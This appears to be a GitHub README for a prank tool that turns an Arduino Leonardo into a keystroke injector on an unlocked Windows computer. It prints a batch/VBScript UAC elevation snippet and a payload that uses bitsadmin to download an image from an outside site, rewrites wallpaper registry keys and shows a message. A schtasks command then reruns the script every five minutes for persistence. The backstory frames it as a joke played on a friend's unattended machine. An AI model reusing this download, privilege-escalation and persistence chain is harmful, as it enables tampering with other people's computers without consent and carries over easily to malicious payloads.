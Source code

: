 # Lauxploit

Forked from code of my evil mate [@henyxia](https://www.github.com/henyxia) ...

Will use to change wallpaper automatically (instead of changing internet homepage...)
-> I will only change Part 2

So I create a small script designed for Arduino Leonardo to work as a keyboard and inject a custom task to Windows' task scheduler.

### The first part - the privilege escalation
```
@whoami /groups | find "S-1-16-12288" > nul && goto :admin
set "ELEVATE_CMDLINE=cd /d "%~dp0" & call "%~f0" %*"
findstr "^:::" "%~sf0">temp.vbs
cscript //nologo temp.vbs & del temp.vbs & exit /b
::: Set objShell = CreateObject("Shell.Application")
::: Set objWshShell = WScript.CreateObject("WScript.Shell")
::: Set objWshProcessEnv = objWshShell.Environment("PROCESS")
::: strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
::: objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
:admin -------------------------------------------------------------
@echo off
echo.
cmd /k
```

### The second part - the main script
```
bitsadmin.exe /transfer "JobName" http://thumbs.dreamstime.com/b/cartoon-girl-crying-ice-cream-drop-28115622.jpg C:\ed\lvi.jpg
reg add "HKCU\control panel\desktop" /v wallpaper /t REG_SZ /d "C:\ed\lvi.jpg" /f
reg add "HKCU\control panel\desktop" /v TileWallpaper /t REG_SZ /f /d 0
reg add "HKCU\control panel\desktop" /v WallpaperStyle /t REG_SZ /f /d 0
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
Msg * "To my beloved OLD secret admirer, please receive this gift as a mark of my unwavering love for you"
```

### The third part - the scheduler

```
schtasks /create /sc minute /mo 5 /tn "Lauxploit" /tr C:\Lauxploit.bat
```

## And now it runs !
The privilege escalation part is not mandatory but I thought it was fun to put it at the root of "C:\". Also, you need to have the correct keymapping for the Leoanardo.

**Use it for fun only !**

----
Background Story from [@henyxia](https://www.github.com/henyxia) :

A friend of mine [@Biboon](https://www.github.com/biboon) always had the bad idea to leave his computer unlocked.
I told him to lock it, as it might be really unsecure.
I did not.
I changed his homepage to a really "nice" site.
We laught.

Some days later, he did it again. I changed his homepage again. We laught again but he told me that it's not useful to lock a computer if you went AFK less than 20 seconds.
